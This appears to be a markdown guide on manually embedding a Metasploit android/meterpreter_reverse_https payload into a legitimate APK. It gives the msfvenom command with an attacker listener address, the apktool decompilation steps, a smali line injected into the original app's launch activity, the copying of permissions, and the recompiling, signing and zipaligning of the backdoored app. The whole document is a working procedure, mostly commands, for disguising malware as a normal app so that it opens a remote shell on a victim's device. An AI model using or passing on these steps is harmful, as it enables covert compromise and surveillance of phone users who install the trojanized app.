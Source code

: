 # Msfvenom Payload in APK (Manual Embedding)

### 1. Generating Payload using MSFVenom

```bash
msfvenom -p android/meterpreter_reverse_https LHOST=192.168.47.5 LPORT=443 -o Payload.apk
```

***

### 2. Decompiling Payload.apk

```bash
apktool d -f Payload.apk
```

***

### 3. Decompiling Original Apk

```bash
apktool d -f Original.apk
```

***

### 4. Embedding Payload to Original APK

First, Copy `Payload/smali/com/metasploit/stage/Payload.smali` to `Original/smali/com/metasploit/stage/Payload.smali`

Then, open `Original/AndroidManifest.xml` and find `<action android:name="android.intent.action.MAIN"/>`. Then look at its parent `<activity>` tag and take a note at the `<activity android:name="com.a.b.c.d">`. Now, goto `smali` folder and then follow the activity name to find the `d` file i.e `smali->com->a->b->c->d`.

In the file `d`, find the line `onCreate(Landroid/os/Bundle;)V` and under that line, you will see `invoke-super {p0, p1} ...`.

You have to enter the following line underneath this line : `invoke-static {p0}, Lcom/metasploit/stage/Payload;->onCreate(Landroid/content/Context;)V` or `invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V`

Please note that the above is a single line of code. It is possible to confuse by using a different pathname than “com/Metasploit/stage/Payload” however if you do that you will have to modify all references to the path in all of the “smali” files that are contained in the “Payload” directory and change the directory name itself. This can be done manually but is prone to error.

Finally, copy the NON-DUPLICATE PERMISSIONS from `Payload/AndroidManifest.xml` and paste them to `Original/AndroidManifest.xml`.

***

### 5. Recompiling the Modded APK

```bash
apktool b Original.apk
```

The unsigned modified apk will be present in `Original/dist` folder.

***

### 6. Signing the APK

First, (ONE TIME ONLY), you have to generate a keystore using `keytool` which contains the keys. Remember the **keystore password**, **alias** and **algorithm** as they will be used in next steps

```bash
keytool -genkey -V -keystore key.keystore -alias 1llus10n -keyalg RSA -keysize 2048 -validity 1000
```

Now, you will use `jarsigner` to sign the apk

```bash
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore Modded.apk 1llus10n
```

***

### 7. Optimizing the APK (ZipAlign)

```bash
zipalign -v 4 Modded-Signed.apk Modded-Signed-Optimized.apk
```

***

